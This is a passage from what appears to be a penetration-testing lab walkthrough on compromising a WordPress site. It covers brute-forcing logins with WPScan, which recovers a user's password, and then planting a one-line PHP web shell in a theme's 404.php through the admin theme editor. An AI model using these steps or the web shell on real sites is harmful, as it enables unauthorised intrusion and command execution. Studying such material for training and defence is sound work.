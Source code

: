 The `--password-attack` flag is used to supply the type of attack. The `-U` argument takes in a list of users or a file containing user names. This applies to the `-P` passwords option as well. The `-t` flag is the number of threads which we can adjust up or down depending. WPScan was able to find valid credentials for one user, `john:firebird1`.

***

## Code Execution

With administrative access to WordPress, we can modify the PHP source code to execute system commands. Log in to WordPress with the credentials for the `john` user, which will redirect us to the admin panel. Click on `Appearance` on the side panel and select Theme Editor. This page will let us edit the PHP source code directly. An inactive theme can be selected to avoid corrupting the primary theme. We already know that the active theme is Transport Gravity. An alternate theme such as Twenty Nineteen can be chosen instead.

Click on `Select` after selecting the theme, and we can edit an uncommon page such as `404.php` to add a web shell.

```php
system($_GET[0]);
```

The code above should let us execute commands via the GET parameter `0`. We add this single line to the file just below the comments to avoid too much modification of the contents.

<figure><img src="../../../../.gitbook/assets/image (329).png" alt=""><figcaption><p>http://blog.inlanefreight.local/wp-admin/theme-editor.php?file=404.php&#x26;theme=twentynineteen</p></figcaption></figure>
